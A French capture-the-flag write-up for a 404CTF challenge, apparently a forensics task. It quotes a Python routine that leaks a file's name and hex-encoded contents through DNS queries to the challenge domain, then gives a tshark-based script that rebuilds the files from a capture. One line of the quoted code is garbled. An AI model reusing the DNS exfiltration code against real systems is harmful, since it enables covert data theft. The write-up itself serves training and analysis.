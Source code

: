 ## Un agent compromis (2/3)

### Description

Après avoir retrouvé le script ``exfiltration.py``, on nous demande de retrouver les données exfiltrées via ce script.
Le script nous montre clairement qu'il s'agit d'un exfiltration DNS :
```python
def exfiltrate_file(filename):
    dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")
    time.sleep(0.1)
    dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")
    content = re)
    time.sleep(0.1)
    dns.resolver.resolve("626567696E.hallebarde.404ctf.fr")
    time.sleep(0.1)
    for i in range(len(content)//32):
        hostname = content[i * 32: i * 32 + 32].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    if len(content) > (len(content)//32)*32:
        hostname = content[(len(content)//32)*32:].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    dns.resolver.resolve("656E64.hallebarde.404ctf.fr")
    time.sleep(60)
```
De plus, on peut identifier des balises indiquant le début d'un fichier, la fin du nom du fichier, et la fin du fichier.

### Solution

A partir de là, il faut lire chaque requête dns effectuée vers ``hallebarde.ctf.fr``, et reconstituer les fichiers suivant le code :
```python
import os

data = os.popen('tshark -r capture-reseau.pcapng -Y "ip.src == 192.168.122.1" -T fields -e dns.qry.name | grep hallebarde').read().split('\n')

files = {}
bool_name = False
bool_file = False
file_data = b''
curr_name = b''
for query in data:
    query = query.split('.')[0]
    if query == "never-gonna-give-you-up":
        bool_name = True
        continue
    elif query == "626567696E":
        bool_name = False
        bool_file = True
        continue
    elif query == "656E64":
        bool_file = False
        files[curr_name.decode()] = file_data
        curr_name = b''
        file_data = b''
        continue
    if bool_name:
        curr_name += bytearray.fromhex(query)
    elif bool_file:
        file_data += bytearray.fromhex(query)
    

for name in files.keys():
    open(name,'wb').write(files[name])
